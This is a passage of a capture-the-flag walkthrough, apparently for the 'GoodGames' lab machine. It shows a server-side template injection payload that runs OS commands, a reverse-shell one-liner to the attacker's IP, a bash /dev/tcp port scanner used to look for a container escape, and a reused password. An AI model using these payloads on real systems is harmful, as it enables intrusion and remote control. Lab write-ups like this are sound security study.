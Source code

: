 This payload shows us the root user's id in the **Profile Card**, so if we gain access, we would do so as the highest-privileged user. Let's check if the victim machine can communicate with us; we'll listen with **tcpdump** to intercept *ICMP* traffic and modify the payload so that instead of executing the `id` command, it does a ping:
####
```ruby
Target Machine ->
    1. sudo tcpdump -i tun0 icmp

Payload Used ->
    {{ self.__init__.__globals__.__builtins__.__import__('os').popen('ping -c 1 10.10.16.6').read() }}

Local Machine ->
    22:26:26.036789 IP goodgames.htb > 10.10.16.6: ICMP echo request, id 398, seq 1, length 64
    22:26:26.036817 IP 10.10.16.6 > goodgames.htb: ICMP echo reply, id 398, seq 1, length 64
```
####
We receive the ICMP trace, so we'll try running different one-liners, since we don't know if the system has tools like **nc**, **bash**, or if it performs any sanitization.
####
```ruby
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /de/tcp/10.10.16.6/1234 0>&1"').read() }}
```
####
####
####
## Second exploit phase (Privilage Escalation)
### Docker
Unfortunately, if we run the `ifconfig` command, we'll realize we are inside a container, so we'll need to escape it and target the real machine. But not before retrieving the flag, which we have access to. We are in container `172.19.0.2`, but if we are two, who is 1? We'll perform internal port enumeration. It would be much easier to do it in Python, but for that, the machine must have it installed. If we run:
####
```bash
which python
```
####
The machine returns the **path** where it is located, so it is installed.
####
```python
#!/usr/bin/python3
import os
from time import sleep

def main():
    for port in range(0, 200):
        sleep(0.5)
        os.system(f'bash -c "</dev/tcp/172.19.0.1/{port} 0>&1" 2>/dev/null && echo "{port} open"')

if __name__ == '__main__':
    main()
```
####
- ##### Script param
    - `</dev/tcp` The less-than symbol before **/dev/tcp** indicates data will be sent, not connections; if it responds, the port is active.
####
We see in the terminal that the script reports port **22** open, we have the users `root` and `augustus`. We could try the password for the container's admin user, which is: `superadministrator`, so we gain access as the augustus user.